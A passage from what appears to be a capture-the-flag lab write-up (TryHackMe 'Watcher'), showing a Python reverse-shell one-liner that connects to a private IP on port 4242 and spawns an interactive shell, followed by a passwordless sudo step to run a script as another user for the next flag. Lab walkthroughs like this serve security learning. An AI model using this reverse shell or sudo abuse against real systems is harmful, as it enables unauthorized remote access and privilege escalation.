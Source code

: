 ```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.47.251",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
![img](/assets/thm_watcher/bg_12.png)

### Flag 6

Then run this with user will without using any password. `sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *`

![img](/assets/thm_watcher/bg_13.png)
